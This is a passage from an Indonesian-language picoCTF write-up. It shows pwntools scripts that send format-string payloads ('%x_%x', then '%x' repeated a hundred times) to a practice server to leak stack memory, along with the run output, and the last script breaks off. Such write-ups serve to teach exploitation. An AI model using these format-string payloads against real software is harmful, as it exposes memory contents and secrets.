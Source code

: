 ```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x_%x\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#print hasil exploit
print(r.recvline())
```
Coba kita kirimkan lagi:
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x_%x\n")
b'8c7b4b0_804b000\n'
[*] Closed connection to mercury.picoctf.net port 59616
```
Nah sip masuk. Terlihat ada dua nilai hex yang terkirim. Nah coba kita print paksa semua isi stacknya sampe jebol semua. Kita pake angka 100 kali ya. Semoga cukup ya.
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x" + "_%x"*100 + "\n")

#skip line "Buying stonks with token:\n"
```